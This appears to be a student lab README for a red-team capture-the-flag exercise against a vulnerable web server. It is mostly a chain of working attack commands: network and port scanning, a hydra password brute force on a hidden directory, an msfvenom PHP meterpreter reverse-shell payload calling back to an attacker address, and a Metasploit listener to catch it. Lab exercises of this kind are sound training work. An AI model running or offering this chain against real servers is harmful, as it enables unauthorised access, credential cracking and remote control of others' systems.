


### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```


```
Db_nmap 172.16.84.205 -Pn -p-
```


```
Db_nmap 172.16.84.205 -A
```


```
Nikto --host http://172.16.84.205
```


```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```


- Use Burp Suite to generate a sitemap by manually browsing the site.


- Use Burp Spider to expand your sitemap.


- Locate the hidden directory on the server.
company_folders/secret_folder


- Brute force the password for the hidden directory.


```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```


- Break the hash password with John the Ripper


- Connect to the server via Webdav.


- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```


- Upload a reverse php connection payload.


```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.

